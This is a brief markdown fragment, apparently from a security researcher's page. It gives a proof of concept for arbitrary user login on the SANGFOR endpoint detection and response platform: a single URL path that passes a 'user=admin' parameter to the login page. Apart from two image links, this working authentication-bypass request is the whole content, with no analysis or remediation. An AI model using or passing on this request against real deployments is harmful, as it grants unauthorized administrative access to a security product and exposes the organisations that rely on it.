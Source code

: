 ![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/13.png)


## SANGFOR终端检测响应平台 - 任意用户登录

poc:
直接访问：
```
/ui/login.php?user=admin
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-8-28/14.png)

